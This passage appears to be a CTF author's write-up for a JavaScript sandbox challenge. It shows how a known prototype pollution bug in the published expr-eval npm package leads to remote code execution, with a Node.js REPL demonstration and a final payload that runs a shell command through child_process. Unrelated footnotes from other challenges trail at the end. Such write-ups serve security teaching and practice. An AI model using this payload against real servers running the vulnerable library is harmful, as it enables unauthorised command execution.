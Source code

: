 Thus, this is a JavaScript sandbox challenge and the goal is RCE.

### Solution

The server uses the latest of `expr-eval`, so is this challenge a 0-day RCE?

No.

You can find [this open issue](https://github.com/silentmatt/expr-eval/issues/266) from the repository in GitHub. According to this, the latest version (published to npm) has a vulnerability although it was already patched on the latest commit. The vulnerability is Prototype Pollution:

- https://github.com/silentmatt/expr-eval/pull/252

So, what you should do is "Prototype Pollution to RCE"[^babybox-1].

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.

For this type of JavaScript sandbox challenges, it's often important to somehow obtain `eval` or `Function.prototype.constructor` to RCE.

In REPL of Node.js, I tried many things and found the following useful behavior:
```javascript
> Object.getPrototypeOf(toString) === Function.prototype
true
> Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor")
{
  value: [Function: Function],
  writable: true,
  enumerable: false,
  configurable: true
}
> Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor").value === Function.prototype.constructor
true
> value
Uncaught ReferenceError: value is not defined
> Object.assign(__proto__, Object.getOwnPropertyDescriptor(Object.getPrototypeOf(toString), "constructor"))
{
  value: [Function: Function],
  writable: true,
  enumerable: false,
  configurable: true
}
> value
[Function: Function]
> value("console.log('polluted!!')")()
polluted!!
undefined
```

The code is polluting `value` to `Function.prototype.constructor`. Finally, my `expr` is:
```javascript
o = constructor;
o.assign(__proto__, o.getOwnPropertyDescriptor(o.getPrototypeOf(toString), "constructor"));
f = value("return global.process.mainModule.constructor._load(`child_process`).execSync(`id`).toString()");
f()
```


[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell